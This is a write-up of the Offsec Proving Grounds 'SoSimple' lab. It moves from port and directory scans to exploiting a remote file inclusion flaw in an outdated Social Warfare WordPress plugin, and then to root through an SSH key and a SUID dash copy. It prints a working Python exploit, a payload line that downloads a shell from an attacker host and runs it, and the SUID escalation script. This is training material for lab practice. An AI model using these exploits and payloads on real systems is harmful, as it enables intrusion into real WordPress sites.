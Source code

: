 ```yaml
---
title: "Proving grounds Play: SoSimple"
layout: post
date: 2023-07-22 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
- RFI
- Wordpress
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```

## Walkthrough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/SoSimple/youtube.png)](https://youtu.be/KodURDujWxs)

## NMAP
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: So Simple
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing for directories and Files
```sh
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.158.78/FUZZ/
Total requests: 62284

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000327:   200        147 L    646 W      13420 Ch    "wordpress"                           
000000386:   403        9 L      28 W       279 Ch      "icons"                               
000004227:   403        9 L      28 W       279 Ch      "server-status"                       
000004255:   200        77 L     39 W       495 Ch      "http://192.168.158.78//"             
000010756:   404        9 L      31 W       276 Ch      "secure_html"
```

## WPScan
```sh
+] social-warfare
 | Location: http://192.168.158.78/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2023-02-15T16:23:00.000Z
 | [!] The version is out of date, the latest version is 4.4.1
```

### Searchsploit

![img](/assets/images/CTF/Proving_Grounds/SoSimple/searchsploit.png)

### Exploit

```py
import sys
import requests
import re
import urlparse
import optparse

class EXPLOIT:

	VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

	def __init__(self, _t, _p):
		self.target  = _t
		self.payload = _p

	def engage(self):
		uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
		r = requests.get( uri )
		if r.status_code == 500:
			print "[*] Received Response From Server!"
			rr  = r.text
			obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
			if obj:
				resp = obj.groups()[0]
				if resp:
					print "[<] Received: "
					print resp.replace( "lnbreak", "\n" )
				else:
					sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
			else:
				sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit( "[~] Unexpected Status Received!" )

def main():
	parser = optparse.OptionParser(  )

	parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
	parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

	(options, args) = parser.parse_args()

	print "[>] Sending Payload to System!"
	exploit = EXPLOIT( options.target, options.payload )
	exploit.engage()

if __name__ == "__main__":
	main()
```

Vulnerable PATH

```py
VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"
```
### Remote File Inclusion

**Remote payload file**

```text
<pre>
system("wget http://192.168.45.217:8000/shell  -O /var/tmp/shell; chmod 755 /var/tmp/shell; chmod +x /var/tmp/shell; /var/tmp/shell");
</pre>
```
### Reverse shell payload using msfvenom

![img](/assets/images/CTF/Proving_Grounds/SoSimple/rev_shell.png)

### RFI Exploitation

![img](/assets/images/CTF/Proving_Grounds/SoSimple/rfi.png)

**Reverse shell connection obtained.**

## Privilege Escalation

User `max` ssh id_rsa file has been found.

![img](/assets/images/CTF/Proving_Grounds/SoSimple/id_rsa.png)

### SSH login to max

![img](/assets/images/CTF/Proving_Grounds/SoSimple/max.png)

Listing `max` user permission, finding exploit for the `service` using GTFO bins and switch user to `steven`

![img](/assets/images/CTF/Proving_Grounds/SoSimple/steven.png)

Listing `steven` user permisssions

![img](/assets/images/CTF/Proving_Grounds/SoSimple/server-health.png)

Create bash script using the location mentioned in the permissions.

```sh
#!/bin/bash

cp /bin/dash /var/tmp/dash; chmod u+s /var/tmp/dash
```

`chmod u+s` Allows the binary to be executed as owner + SUID permissions.

### Running script as root user

![img](/assets/images/CTF/Proving_Grounds/SoSimple/dash.png)

**Run** `dash`

![img](/assets/images/CTF/Proving_Grounds/SoSimple/proof.png)

`dash -p` preserves effective privilege with which it was created and executed with same privilege.

**Root obtained.**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
